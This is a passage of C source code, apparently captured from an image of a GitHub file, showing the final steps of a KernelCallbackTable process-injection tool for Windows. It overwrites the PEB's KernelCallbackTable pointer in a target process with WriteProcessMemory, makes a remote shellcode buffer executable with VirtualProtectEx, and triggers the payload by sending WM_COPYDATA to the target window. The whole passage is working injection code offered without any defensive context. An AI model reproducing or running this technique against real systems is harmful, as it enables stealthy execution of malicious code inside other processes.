 ```c
    }
    printf( COLOR_GREEN_BOLD "\t[+] Cloned KernelCallbackTable written at: 0x%p\n" COLOR_RESET, cloneCCC );

    // Step 11: Update PEB KernelCallbackTable to cloned KernelCallbackTable
    printf( COLOR_YELLOW_BOLD "\t[*] Updating PEB with cloned KernelCallbackTable...\n" COLOR_RESET );
    if ( !WriteProcessMemory(
        hProcess,
        ( PBYTE ) PebBaseAddress + offsetof( PEB, KernelCallbackTable ),
        &cloneCCC,
        sizeof( PVOID ),
        &bytesRead
    ) )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to update PEB KernelCallbackTable. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    printf( COLOR_GREEN_BOLD "\t[+] PEB KernelCallbackTable updated successfully!\n" COLOR_RESET );

    // Step 12: Ensure Memory Protection for Payload
    DWORD oldProtect;
    if ( !VirtualProtectEx(
        hProcess,
        remotebuf,
        shellcodeSize,
        PAGE_EXECUTE_READ,
        &oldProtect
    ) )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to change memory protection for payload. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    printf( COLOR_GREEN_BOLD "\t[+] Memory protection for payload set to PAGE_EXECUTE_READ.\n" COLOR_RESET );

    // Step 13: Trigger the payload
    printf( COLOR_YELLOW_BOLD "\t[*] Sending message to trigger the payload...\n" COLOR_RESET );
    COPYDATASTRUCT cds;
    WCHAR msg[] = L"LJX";
    cds.dwData = 1;
    cds.cbData = ( lstrlenW( msg ) + 1 ) * sizeof( WCHAR );
    cds.lpData = msg;
    LRESULT result = SendMessage(
        hWindow,
        WM_COPYDATA,
        ( WPARAM ) hWindow,
        ( LPARAM ) &cds
    );
    if ( result == 0 && GetLastError() != 0 )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to send message to trigger payload. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    printf( COLOR_GREEN_BOLD "\t[+] Payload triggered!\n" COLOR_RESET );

    // Cleanup
    printf( COLOR_YELLOW_BOLD "\t[*] Cleaning up...\n" COLOR_RESET );
    VirtualFreeEx( hProcess, remotebuf, 0, MEM_RELEASE );
    VirtualFreeEx( hProcess, cloneCCC, 0, MEM_RELEASE );
```